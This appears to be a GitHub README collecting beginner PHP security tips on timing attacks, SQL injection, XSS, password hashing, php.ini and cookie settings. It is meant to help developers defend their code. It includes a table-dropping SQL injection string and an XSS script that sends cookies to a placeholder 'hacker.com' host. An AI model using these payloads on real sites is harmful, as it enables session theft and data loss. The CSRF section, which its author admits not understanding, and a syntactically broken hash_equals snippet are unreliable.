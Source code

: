 ### PHP security collection
I am not an expert, just somemone who collects security vulnerabilities!

#### Genral links
https://github.com/paragonie/awesome-appsec#php

https://www.udemy.com/course/php-security/

#### Timing attack

String compare operators return immediately if the length is not the same:
So you could see if one length takes longer than other, based on that you can get the length. The string compare operator return immediately if the a character is wrong, so based on that: you can get the character that takes the longest and that this is the right character.

```
if ($_POST["password"] !== "Password") {
    return false;
}
```
Even if the time difference is so little and ther is network jitter: why risk it. Use hash_equals($known_string, $user_string), which doesnt leak time difference (only for getting the length).
```
if (hash_equals("Password", $_POST["password"]) {
    return true;
}
```

[Link on topic](https://blog.ircmaxell.com/2014/11/its-all-about-time.html)

#### Insufficient Randomness

Dont use mt_rand() . Use one of the following:

* RandomLib
* random_bytes($length) (PHP 7, or available in PHP 5 via random_compat)
* Raw bytes read from /dev/urandom
* mcrypt_create_iv($length, MCRYPT_DEV_URANDOM);
* openssl_random_pseudo_bytes($length);

```
$token = bin2hex(openssl_random_pseudo_bytes($length));
```

[Link on topic](https://paragonie.com/blog/2015/04/secure-authentication-php-with-long-term-persistence)

#### SQL injection
```
$userQuery = $con->query("SELECT * FROM users WHERE email = '$email' ");
```

If user input is:
''; DROP TABLE posts; --
This will drop the table posts.

To avoid this, use prepare statement.
```
$userQuery = $con->prepare("SELECT * FROM users WHERE email = :email");
$userQuery->execute([
    'email' => $email
]);
```
[PDO tutorial](https://phpdelusions.net/pdo)

#### PHP ini

```
display_errors=Off ;hides possible data leaks

log_errors=On ;this two lines log all errors in given file
error_log=/var/log/httpd/php_scripts_error.log

file_uploads=Off ;if file_uploads not neaded, disalow it

file_uploads=On ; if needed, set max size
; user can only upload upto 1MB via php
upload_max_filesize=1M
```

[php.ini and more](https://www.cyberciti.biz/tips/php-security-best-practices-tutorial.html)
#### Cross-site scripting (XSS)
XSS is an injection attack. If you have some type of form, that uploads data and try to show this data as html code, you can insert javascript. For example: you can commit a comment and you show this comment as html, you can insert into the comment javscript: which will, when inserted, be ecexuted. You could insert this "harmless" code:
```
<script>
window.alert("Hello i am inserted")
</script>
```
To see how dangerous XSS is, look at that:
```
<script>
window.location = "http://hacker.com/hack.php?cookie=" + escape(document.cookie)
</script>
```
See, you can steal cookies: which can have eccess tokens.

When insert text with javascript use instead of innerHTML, textContent. When echo in php fetch the echo content out of htmlspecialchars($_POST["body"]).
```
echo htmlspecialchars($_POST["body"]);
```

When insert text with javascript use instead of innerHTML, textContent.

#### Password hashing
Dont use md5 hashing. It is easily crackable.
```
md5($_POST["password"]) //dont do this
```
Use password_hash($password).
```
password_hash($password, PASSWORD_DEFAULT) // this hashes the password
```
[Password hash manual](https://www.php.net/manual/de/function.password-hash.php) <br>
Use password_verify to verify the password.
```
$result = password_verify($password, $hash);
```
#### Hiding directories
To hide directories create in the a .htacess file, in the directorie and then it cant be eccessed. Put this in there.
```
Options -Indexes
```
#### Http only cookie
```
setcookie("token", $tokenCookie, NULL, "/", NULL, TRUE, TRUE);
```
The last true sets the cookie to http only. Makes it not eccessable from javascript.

#### Cross-Site Request Forgery (CSRG)
I didnt understand CSRG, because its attack where you basically open a not protected public php file to perform a action. It should be clear to protect you php files, from random eccess therby enabling actions, with a handshake between your browser and server, with authorisation-methods such as: Cookies, Sessions, JWTs.
